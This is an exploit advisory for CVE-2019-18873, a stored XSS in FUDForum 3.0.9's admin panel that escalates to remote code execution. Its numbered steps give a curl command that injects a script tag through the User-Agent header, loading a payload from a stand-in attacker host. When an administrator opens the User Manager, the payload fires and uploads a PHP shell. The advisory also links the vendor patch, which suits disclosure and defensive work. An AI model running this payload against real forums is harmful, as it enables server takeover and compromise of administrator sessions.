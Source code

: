 # FUDForum 3.0.9 - Stored XSS / Remote Code Execution [Admin Panel]

- Date                  : 10/26/19
- Exploit Author        : liquidsky (JMcPeters)
- Vulnerable Software   : FUDForum 3.0.9
- Vendor Homepage       : http://fudforum.org/forum/
- Version               : 3.0.9
- Software Link         : https://sourceforge.net/projects/fudforum/
- Tested On             : Windows / mysql / apache
- Author Site           : http://incidentsecurity.com | demo: https://youtu.be/0gsJQ82TXw4
- CVE                   : CVE-2019-18873
- Patch / Fix           : https://sourceforge.net/p/fudforum/code/6321/

Greetz : wetw0rk, Fr13ndz, offsec

Description: FUDForum 3.0.9 is vulnerable to Stored XSS via the User-Agent HTTP header. This may result in remote code execution. An attacker can use a user account to fully compromise the system via a GET request. When the admin visits user information under "User Manager" in the control panel, the payload will execute. This will allow for PHP files to be written to the web root, and for code to execute on the remote server. The problem is in admsession.php and admuser.php.

Notes: 

1. Register an account and log in to the forum. If you have an IP already associated with a registered user this is not required.
   This step is so when you run the XSS payload from your attacker machine it gets logged under the user activity.

2. Send the XSS payload below (from an IP associated with an account) / host the script:

- curl -A '<script src="http://attacker.machine/fud.js"></script>' http://target.machine/fudforum/index.php

3. When the admin visits the user information from the admin controls / User Manager the payload will fire under "Recent sessions", uploading a php shell on the remote system.
